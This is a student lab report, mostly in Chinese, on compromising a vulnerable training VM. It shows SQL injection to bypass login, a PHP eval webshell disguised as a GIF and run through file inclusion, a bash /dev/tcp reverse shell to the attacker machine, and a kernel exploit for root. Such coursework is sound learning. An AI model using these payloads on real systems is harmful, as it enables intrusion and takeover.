



Lab5
Network Atk&Def lab5 241840273 杨良灼
查询攻击机 IP
└─$ sudo ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.2.4 netmask 255.255.255.0 broadcast 10.0.2.255
inet6 fe80::9d17:dec1:4341:a804 prefixlen 64 scopeid 0x20<link>
ether 08:00:27:3c:97:80 txqueuelen 1000 (Ethernet)
RX packets 8 bytes 2634 (2.5 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 24 bytes 3152 (3.0 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 8 bytes 480 (480.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 8 bytes 480 (480.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
主机发现：得到靶机 ip 10.0.2.8.
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:3c:97:80, IPv4: 10.0.2.4
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1 52:54:00:12:35:00 (Unknown: locally administered)
10.0.2.2 52:54:00:12:35:00 (Unknown: locally administered)
10.0.2.3 08:00:27:51:92:a5 (Unknown)
10.0.2.8 08:00:27:1c:31:b1 (Unknown)
4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.948 seconds (131.42 hosts/sec). 4 responded
端口扫描
└─$ sudo nmap 10.0.2.8
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-10 06:16 EST
Nmap scan report for 10.0.2.8
Host is up (0.00045s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 08:00:27:1C:31:B1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
可以访问其 http 服务：通过浏览器访问 80 端口：10.0.2.8:80：
尝试注入无果，尝试对靶机目录爆破：
└─$ sudo dirb http://10.0.2.8:80
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Mon Nov 10 06:24:16 2025
URL_BASE: http://10.0.2.8:80/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.0.2.8:80/ ----
+ http://10.0.2.8:80/add (CODE:200|SIZE:307)
+ http://10.0.2.8:80/c (CODE:200|SIZE:1)
+ http://10.0.2.8:80/cgi-bin/ (CODE:403|SIZE:284)
+ http://10.0.2.8:80/head (CODE:200|SIZE:2793)
==> DIRECTORY: http://10.0.2.8:80/images/
+ http://10.0.2.8:80/in (CODE:200|SIZE:47524)
+ http://10.0.2.8:80/index (CODE:200|SIZE:3267)
+ http://10.0.2.8:80/index.php (CODE:200|SIZE:3267)
+ http://10.0.2.8:80/panel (CODE:302|SIZE:2469)
+ http://10.0.2.8:80/server-status (CODE:403|SIZE:289)
+ http://10.0.2.8:80/show (CODE:200|SIZE:1)
+ http://10.0.2.8:80/test (CODE:200|SIZE:72)
---- Entering directory: http://10.0.2.8:80/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
-----------------
END_TIME: Mon Nov 10 06:24:20 2025
DOWNLOADED: 4612 - FOUND: 11
我们尝试扫描到的诸多文件，对于 test 文件：

发现其需要 file 参数，这是一个任意文件下载漏洞.
使用 Burp Suite 进行拦截：
Proxy/Open browser, Proxy/intercept off -> Proxy/intercept on, 在 browser 中输入 URL http:10.0.2.8:80/test, Proxy/Request/Change request method, Proxy/Request/Send to Repeater

在最后一行输入 file=index.php 以下载得到源码，右边 Response 选择 Raw：其中重要的几行如下：
$uname=str_replace('\'','',urldecode($_POST['un']));
$pass=str_replace('\'','',urldecode($_POST['ps']));
$run='select * from auth where pass=\''.$pass.'\' and uname=\''.$uname.'\'';
$result = mysqli_query($conn, $run);
根据 SQL 语法，得到一个可行的注入代码：
or 1=1 #" / =\
将其作为用户名和密码，成功登入.
进入页面之后，我们发现左边可以选择 Show Users 或者 Add User，对于后者，网页允许上传图片，我们尝试上传一个伪装成图片的木马.
我们仍然通过之前类似于查看 index.php 的方式查看 panel.php 以查询图片上传检测的源码：其中重要的几行如下：
if(in_array($r,$image))
{
$finfo = @new finfo(FILEINFO_MIME);
$filetype = @$finfo->file($_FILES['image']['tmp_name']);
if(preg_match('/image\/jpeg/',$filetype ) || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
{
if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
{
echo "Uploaded successfully ";
$update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')';
mysqli_query($conn, $update);
}
}
else
{
echo "<br>i told you dear, only png,jpg and gif file are allowed";
}
}
else
{
echo "<br>only png,jpg and gif file are allowed";
}
发现首先检测 $filetyle 是否是 jpeg、png、gif 其中之一，其次检测文件头，于是我们使用一句话木马：
GIF87a
<?php @eval($_POST['shell']);?>
同时修改木马的文件后缀名为 .gif 并上传.
通过 Show Users 中图片，右击选中并 Copy Image Link 得到图片所在文件夹路径为：http://10.0.2.8/uploaded_images/.
然后我们查看 panel.php 中图片加载部分的代码：
if(isset($_POST['continue']))
{
$dir=getcwd();
$choice=str_replace('./','',$_POST['load']);
if($choice==='add')
{
include($dir.'/'.$choice.'.php');
die();
}
if($choice==='show')
{
include($dir.'/'.$choice.'.php');
die();
}
else
{
include($dir.'/'.$_POST['load']);
}
}
因此只需将 load 参数按格式 load=uploaded_images/trojan.gif 设置即可，其中 trojan.gif 是木马文件名.
回到上传界面，Burp Suite 开启拦截后点击上传，拦截下来后转到 Repeater，并修改：
POST /panel.php?cmd=whoami HTTP/1.1
Host: 10.0.2.8
Content-Length: 49
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.2.8
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.8/panel.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=lv8rchvgsnejeps9bc6cckvc82
Connection: keep-alive
load=uploaded_images/torjan.gif&continue=continue

得到了用户名！然后修改上面的 whoami ，反弹 Shell 一下：
nc -lvvp 3343
POST /panel.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.0.2.4/3343+0>%261" HTTP/1.1
得到了：
└─$ nc -lvvp 3343
listening on [any] 1234 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.8] 45714
bash: no job control in this shell
www-data@indishell:/var/www$
使用 lsb_release -a 得到版本为 Ubuntu 12.04.5 LTS，内核为 Linux 3.13.0，使用 searchsploit 搜索漏洞，我们使用
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.1 | linux/local/37292.c
这一条进行提权：
www-data@indishell:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
随即使用 passwd 修改密码，并在靶机上登陆：